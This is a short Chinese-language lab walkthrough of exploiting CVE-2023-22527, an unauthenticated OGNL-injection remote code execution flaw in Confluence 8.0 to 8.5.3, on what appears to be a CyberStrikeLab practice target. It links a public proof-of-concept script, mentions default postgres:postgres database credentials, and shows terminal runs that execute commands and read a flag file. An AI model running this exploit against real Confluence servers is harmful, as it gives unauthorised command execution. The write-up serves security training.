


# CVE-2023-22527

:::info

> 在 Confluence 8.0 到 8.5.3 版本之间，存在一处由于任意 velocity 模板被调用导致的 OGNL 表达式注入漏洞，未授权攻击者利用该漏洞可以直接攻击 Confluence 服务器并执行任意命令

:::

使用 [Manh130902/CVE-2023-22527-POC: A critical severity Remote Code Execution (RCE) vulnerability (CVE-2023-22527) was discovered in Confluence Server and Data Center.](https://github.com/Manh130902/CVE-2023-22527-POC) 直接梭哈

:::warning

服务启动时间较长

:::

生成一个试用许可证





数据库这里，使用默认的 `postgres:postgres` 凭据连接数据库


接下来配置完环境初始化之后，即可攻击环境

```bash
┌──(randark㉿kali)-[~/pocs/CVE-2023-22527-POC]
└─$ python3 CVE-2023-22527.py --target http://6bda12f1-fa21-45f4-83f5-b83190f9abca-488.cyberstrikelab.com:83/ --cmd "pwd"
Confluence version: 8.5.3
Command Output:
/var/atlassian/application-data/confluence

┌──(randark㉿kali)-[~/pocs/CVE-2023-22527-POC]
└─$ python3 CVE-2023-22527.py --target http://6bda12f1-fa21-45f4-83f5-b83190f9abca-488.cyberstrikelab.com:83/ --cmd "ls -lh /"
Confluence version: 8.5.3
Command Output:
total 24K lrwxrwxrwx    1 root root    7 Jan 11  2024 bin -> usr/bin drwxr-xr-x    2 root root   10 Apr 18  2022 boot -rwxrwxr-x    1 root root 1.2K Jan 17  2024 __cacert_entrypoint.sh drwxr-xr-x    5 root root  360 Apr 23 15:03 dev -rw-r--r--    1 root root 5.5K Jan 20  2024 entrypoint_helpers.py -rwxr-xr-x    1 root root  995 Jan 20  2024 entrypoint.py drwxr-xr-x    1 root root   66 Apr 23 15:03 etc -rwxr-xr-x    1 root root  143 Dec  3 07:24 flag.sh drwxr-xr-x    2 root root   10 Apr 18  2022 home lrwxrwxrwx    1 root root    7 Jan 11  2024 lib -> usr/lib lrwxrwxrwx    1 root root    9 Jan 11  2024 lib32 -> usr/lib32 lrwxrwxrwx    1 root root    9 Jan 11  2024 lib64 -> usr/lib64 lrwxrwxrwx    1 root root   10 Jan 11  2024 libx32 -> usr/libx32 drwxr-xr-x    2 root root   10 Jan 11  2024 media drwxr-xr-x    2 root root   10 Jan 11  2024 mnt drwxr-xr-x    1 root root   31 Jan 20  2024 opt dr-xr-xr-x 4295 root root    0 Apr 23 15:03 proc drwx------    1 root root   10 Jan 17  2024 root drwxr-xr-x    1 root root   29 Apr 23 15:03 run lrwxrwxrwx    1 root root    8 Jan 11  2024 sbin -> usr/sbin drwxr-xr-x    1 root root   35 Jan 20  2024 sbom -rwxr-xr-x    1 root root 1.1K Jan 20  2024 shutdown-wait.sh drwxr-xr-x    2 root root   10 Jan 11  2024 srv dr-xr-xr-x   13 root root    0 Apr 23 15:03 sys drwxrwxrwt    1 root root   63 Apr 23 15:03 tmp drwxr-xr-x    1 root root   90 Jan 11  2024 usr drwxr-xr-x    1 root root   46 Jan 20  2024 var

┌──(randark㉿kali)-[~/pocs/CVE-2023-22527-POC]
└─$ python3 CVE-2023-22527.py --target http://6bda12f1-fa21-45f4-83f5-b83190f9abca-488.cyberstrikelab.com:83/ --cmd "ls -lh /tmp"
Confluence version: 8.5.3
Command Output:
total 4.0K -rw-r--r-- 1 root       root       46 Apr 23 15:03 flag.txt drwxr-xr-x 2 confluence confluence 39 Apr 23 15:16 hsperfdata_confluence drwxr-xr-x 1 root       root       24 Jan 17  2024 hsperfdata_root

┌──(randark㉿kali)-[~/pocs/CVE-2023-22527-POC]
└─$ python3 CVE-2023-22527.py --target http://6bda12f1-fa21-45f4-83f5-b83190f9abca-488.cyberstrikelab.com:83/ --cmd "cat /tmp/flag.txt"
Confluence version: 8.5.3
Command Output:
go-flag{b3921870-be0b-48b1-9672-a7da35c98653}
```
